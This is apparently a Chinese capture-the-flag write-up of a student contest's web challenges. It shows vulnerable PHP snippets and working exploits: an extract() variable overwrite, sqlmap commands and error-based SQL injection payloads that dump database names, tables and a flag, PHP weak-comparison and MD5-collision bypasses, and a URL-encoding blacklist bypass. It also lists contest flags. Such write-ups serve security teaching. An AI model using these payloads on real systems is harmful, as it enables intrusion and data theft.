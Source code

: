 ```yaml
---
title: NICO冬令营第一次比赛
description: 
published: true
date: 2022-07-18T00:10:05.574Z
tags: 
editor: markdown
dateCreated: 2022-07-17T15:34:33.925Z
---
```


# Web
## web1

```php
<?php
	//author: Elaine
	include('./flag.php');
	highlight_file(__FILE__);
	$admin = 'false';
	$guest = 'true';
	extract($_GET); # 读取传入数据的变量
	if (md5($admin) == md5($guest)) {
	    echo $FLAG;
	} else{
	    echo "nonono!";
	}
?>
```

这题相对简单，因为`extract`函数可以覆盖原有变量的数据，所以选择`$admin`和`$guest`两个变量其中一个的值覆写一下，让判断为真就可以了：
![72782a9b-6e65-42e0-8340-9e482108919a.png](/72782a9b-6e65-42e0-8340-9e482108919a.png)

## SQL

通过抓包，可以发现请求是通过POST传输的，那么先祭出`sqlmap`测试一下
![21cd3092-9893-473b-9773-11b351f7cbc2.png](/21cd3092-9893-473b-9773-11b351f7cbc2.png)
```bash
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form
```
![a7838e45-0b48-44fd-98ed-f27b18bdaa3d.png](/a7838e45-0b48-44fd-98ed-f27b18bdaa3d.png)
可以看出`sqlmap`检测出了可注入，那么测试一下自动注入：
```
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form --dbs
```
![a96b26f0-9e51-4262-87a8-35e21ccbe8a1.png](/a96b26f0-9e51-4262-87a8-35e21ccbe8a1.png)
可以看出注入点存在，但是`sqlmap`无法实现自动注入，那么尝试手注：
```bash
tt=1'and extractvalue(1,concat(1,(select user()))) %23
```
![4fe89ac1-38b9-45a2-99a6-119af6a6ffd4.png](/4fe89ac1-38b9-45a2-99a6-119af6a6ffd4.png)
```bash
tt=1'and extractvalue(1,concat(1,(select database()))) %23
```
![aa7d0f2b-a3c2-4aeb-ae30-5da582a10f82.png](/aa7d0f2b-a3c2-4aeb-ae30-5da582a10f82.png)
由此已经得到了一个数据库：`error_sql`，接下来爆出库内的表名：
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='error_sql'))) %23
```
![26b87fba-05b5-44af-a36f-d3c385e54071.png](/26b87fba-05b5-44af-a36f-d3c385e54071.png)
那么已经知道库内有两个表：`data`,`flag_here`，接着爆`flag_here`:
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='flag_here'))) %23
```
![9e3f4944-6087-440e-861b-3fba5bcb8764.png](/9e3f4944-6087-440e-861b-3fba5bcb8764.png)
那么只需爆出`data`的数据就好了：
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(data) from flag_here))) %23
```
![fc1e1d36-f509-4fe8-9896-229ff6e27f74.png](/fc1e1d36-f509-4fe8-9896-229ff6e27f74.png)
但是比较糟糕，报错信息限制了数据的显示，那么采取分段显示：
```bash
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),1,16) from flag_here))) %23
```
![1f670c79-c78e-4070-9983-5ab7c428c742.png](/1f670c79-c78e-4070-9983-5ab7c428c742.png)
```bash
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),17,21) from flag_here))) %23
```
![c98b3706-c579-4cc8-a066-cf9adc7ec3a1.png](/c98b3706-c579-4cc8-a066-cf9adc7ec3a1.png)
得到了flag：
```text
NICO{eRr0r_inJect10n_1s_in7er35tin9!}
```

## level ?

level1：

```php
<?php
		//here is level1    
		error_reporting(0);
    include "str.php";
    if (isset($_GET['txw4ever'])){
        if (substr_count($_GET['txw4ever'],'1')>0){
            die("level 1 failed ...");
        }
        if ($_GET['txw4ever'] == 1){
            echo "next: ".$level2;
        }
    }
    else{
        show_source(__FILE__);
    }
?>
```

这里要实现`$txw4ever`字符里面不含有1，但是数值表达上等于1，就会想到传无限接近于1：

```
http://121.37.5.94:8310/?txw4ever=0.99999999999999999999
```

![abb7b466-f00a-48ff-8615-fe30b6b5daae.png](/abb7b466-f00a-48ff-8615-fe30b6b5daae.png)

level2:

```php
<?php
//here is level2
    error_reporting(0);
    include "str.php";
    if (isset($_POST['jitanglailo'])){
        $chuanshanjia = $_POST['jitanglailo'];
        if ($chuanshanjia == md5($chuanshanjia)){
            echo $level3;
        }
        else{
            die("level 2 failed ...");
        }
    }
    else{
        show_source(__FILE__);
    }
?>
```

这里是md5的弱对比，那么就想到构造0e开头的字符串：

```
jitanglailo=0e215962017
```
![6c399ebe-6046-46c6-a526-1793d22ed7c7.png](/6c399ebe-6046-46c6-a526-1793d22ed7c7.png)

level3：

```php
<?php
//here is level3
    error_reporting(0);
    include "str.php";
    if (isset($_POST['arr1']) && isset($_POST['arr2'])){
        $a1 = (string)$_POST['arr1'];
        $a2 = (string)$_POST['arr2'];
        if ($a1 == $a2){
            die("????");
        }
        if (md5($a1) === md5($a2)){
            echo $level4;
        }
        else{
            die("level 3 failed ...");
        }
    }
    else{
        show_source(__FILE__);
    }
?>
```

这里md5的值用上了===对比符，只能考虑强碰撞。考虑数据传输完整性，采用Burp来POST数据：

```
POST http://121.37.5.94:8310/LevEl3.php HTTP/1.1
Host: 121.37.5.94:8310
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1027

arr1=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1Bih%D3%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8U%7C%3Dm%89%DB%11%B7%BFkr%84.%01h%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%96F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%94%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9d%84%B2%F1%03&arr2=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1BihS%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8%D5%7C%3Dm%89%DB%11%B7%BFkr%84.%01%E8%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%16F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%14%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9%E4%84%B2%F1%03
```
![bc22688d-c8a9-45f9-86ee-f4a8edfce7ed.png](/bc22688d-c8a9-45f9-86ee-f4a8edfce7ed.png)

level4:

```php
<?php
//here is last level
    error_reporting(0);
    include "str.php";
    show_source(__FILE__);
    $str = parse_url($_SERVER['REQUEST_URI']);
    if($str['query'] == ""){
        echo "give me a parameter";
    }
    if(preg_match('/ |_/',$str['query'])){
        die("blacklist here");
    }
    if (substr_count($str['query'],'.') > 1){
        die("i know you");
    }
    if($_GET['NI_CO_'] === "try-your-best!"){
        die($flag);
    }
    else{
        die("level 3 failed ...");
    }
?>
```

可以看出这题的黑名单比较薄弱，直接url编码就可以绕过：

```
http://121.37.5.94:8310/lEvEl_4.php?NI%2eCO%2e=try-your-best!
```

![169c1a51-2856-49bf-9204-bc1a7d86b673.png](/169c1a51-2856-49bf-9204-bc1a7d86b673.png)

得到了flag：NICO{phP_1s_R3alLy_Go0d!}